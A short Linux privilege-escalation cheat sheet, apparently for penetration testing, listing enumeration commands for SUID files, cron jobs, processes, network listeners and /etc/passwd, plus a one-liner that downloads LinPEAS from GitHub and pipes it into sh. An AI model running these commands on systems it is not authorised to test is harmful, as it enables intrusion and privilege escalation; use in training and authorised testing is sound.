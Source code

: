 ## Privilege Escalation Commands

### System Information

# Kernel version
uname -a
cat /etc/*-release

# Running processes
ps aux
ps -ef

# Scheduled tasks
crontab -l
ls -la /etc/cron*

# SUID files
find / -perm -4000 2>/dev/null
find / -perm -u=s -type f 2>/dev/null

# Network information
ifconfig
netstat -tulpn
ss -tulpn

# Users and groups
cat /etc/passwd
cat /etc/group
id

# LinPEAS
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Linux Exploit Suggester
./linux-exploit-suggester.sh

# Linux Smart Enumeration
./lse.sh -l1
